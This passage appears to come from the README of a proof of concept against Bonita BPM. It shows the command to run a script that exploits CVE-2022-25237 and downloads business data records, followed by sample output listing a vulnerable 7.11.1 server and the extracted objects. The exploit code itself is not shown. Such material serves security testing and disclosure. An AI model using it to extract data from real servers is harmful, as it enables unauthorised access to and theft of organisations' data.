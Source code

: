 To execute the script `dnl-bd.sh` from the `./poc` directory using a Bash command, you can use the following command:

```bash
bash ./dnl-bd.sh
```

#### Expected Results

- Request results are stored in the `./output/bd` directory, organized into subdirectories.
- Extracts all records for each BDM object, generating files like `Order-123456.json`.
- The number of retrieved records is limited by the value set in the `BN_RQ_LIMIT` variable in the `_config.sh` file. The default value is `5`, which is sufficient to retrieve a sample of the data.

**Example of output**

```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Downloading Business Data
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Bonita Server:          * * *
Bonita Version:         7.11.1
Cookie Conf:            Set
Session Status:         Alive
User Profiles:          User
CVE-2022-25237:         Infected
Requests Limit:         5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Processing 21 elements

        Accessories
                Request: 4
                                No more data
        Agency
                Request: 1
                                No data
        Attachment
                Request: 5
        BusinessCard
                Request: 5
        Color
                Request: 5
        Customer
                Request: 5
        Deal
                Request: 5
        Driver
                Request: 5
        Feedback
                Request: 5
        Item
                Request: 5
        Job
                Request: 5
        Languages
                Request: 3
                                No more data
        Lead
                Request: 5
        Material
                Request: 5
        Partner
                Request: 5
        Product
                Request: 5
        Project
```